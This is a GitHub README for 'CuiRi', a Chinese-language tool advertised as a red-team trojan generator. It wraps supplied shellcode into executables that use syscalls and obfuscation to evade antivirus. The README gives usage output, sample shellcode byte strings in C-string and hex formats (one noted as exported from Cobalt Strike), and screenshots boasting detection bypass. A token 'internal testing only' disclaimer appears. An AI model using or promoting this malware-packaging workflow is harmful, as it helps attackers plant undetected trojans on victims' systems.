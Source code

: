 # 摧日：CuiRi 红队专用免杀木马生成工具

![-w1325](https://z3.ax1x.com/2021/09/08/hTxsWd.jpg)
![Author](https://img.shields.io/badge/作者-Dubh3-green)  ![language](https://img.shields.io/badge/开发语言-Golang-green) ![version](https://img.shields.io/badge/版本-1.0-brightgreen)

### 0x01 简介：

```
   ____   __    __    _____      ______      _____  
  / ___)  ) )  ( (   (_   _)    (   __ \    (_   _) 
 / /     ( (    ) )    | |       ) (__) )     | |   
( (       ) )  ( (     | |      (    __/      | |   
( (      ( (    ) )    | |       ) \ \  _     | |   
 \ \___   ) \__/ (    _| |__    ( ( \ \_))   _| |__ 
  \____)  \______/   /_____(     )_) \__/   /_____( 

摧日：一款红队专用免杀木马生成器，基于shellcode生成绕过所有杀软的木马
```

CuiRi 是一款红队专用免杀木马生成器，该工具可以通过红队人员提供的一段 shellcode 快速生成一个绕过所有杀软的可执行木马。

**特点**

* 1.基于 Syscall 进行免杀，且随机混淆，可过几乎所有杀软
* 2.内置 go-strip 对 Go 生成的木马进行编译信息抹除与程序信息混淆
* 3.工具本体只有 1 个 exe，搭配 Go 环境即可直接使用

感谢 go-strip 作者 [@boy-hack](https://github.com/boy-hack "@boy-hack")

### 0x02 使用：

从 [release](https://github.com/NyDubh3/CuiRi/releases/tag/v1.0 "release") 中下载二进制文件，并且在系统上安装 Go 语言环境，然后将 shellcode 保存到1个txt文件中，即可使用本工具生成免杀马。

```bash
   ____   __    __    _____      ______      _____
  / ___)  ) )  ( (   (_   _)    (   __ \    (_   _)
 / /     ( (    ) )    | |       ) (__) )     | |
( (       ) )  ( (     | |      (    __/      | |
( (      ( (    ) )    | |       ) \ \  _     | |
 \ \___   ) \__/ (    _| |__    ( ( \ \_))   _| |__
  \____)  \______/   /_____(     )_) \__/   /_____(

摧日：一款红队专用免杀木马生成器，基于shellcode生成绕过所有杀软的木马

警告：
1.本工具仅用于企业内部测试，请勿用于任何非法犯罪活动，否则后果自负
2.本工具需要Go语言环境，且使用时需要关闭杀软
https://github.com/NyDubh3/CuiRi   Author:Dubh3

[INFO] Current Version: 1.0
Usage of CuiRi.exe:
  -f string
        通过shellcode生成免杀马
  -manual
        查看shellcode生成方法
```

CuiRi 支持的 shellcode 格式分为以下两种：

**1.C语言字符串格式 shellcode：**

```bash
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52"
"\x48\x31\xd2\x51\x65\x48\x8b\x52\x60\x56\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
```

**2.纯十六进制数值格式 shellcode:**

注意：如果是从 Cobalt Strike 中生成的 bin 文件，请单独将 bin 里的十六进制复制保存到一个 txt 文件中。

```bash
fce8 8900 0000 6089 e531 d264 8b52 308b
520c 8b52 148b 7228 0fb7 4a26 31ff 31c0
ac3c 617c 022c 20c1 cf0d 01c7 e2f0 5257
8b52 108b 423c 01d0 8b40 7885 c074 4a01
d050 8b48 188b 5820 01d3 e33c 498b 348b
01d6 31ff 31c0 acc1 cf0d 01c7 38e0 75f4
037d f83b 7d24 75e2 588b 5824 01d3 668b
```

### 0x03 演示：

**(1) 生成 shellcode**

![-w1325](images/1.gen_shellcode.jpg)

**(2) 生成免杀马**

![-w1325](images/2.gen_trojan.jpg)

**(3) 免杀效果**

![-w1325](images/3.power_1.jpg)

![-w1325](images/3.power_2.jpg)
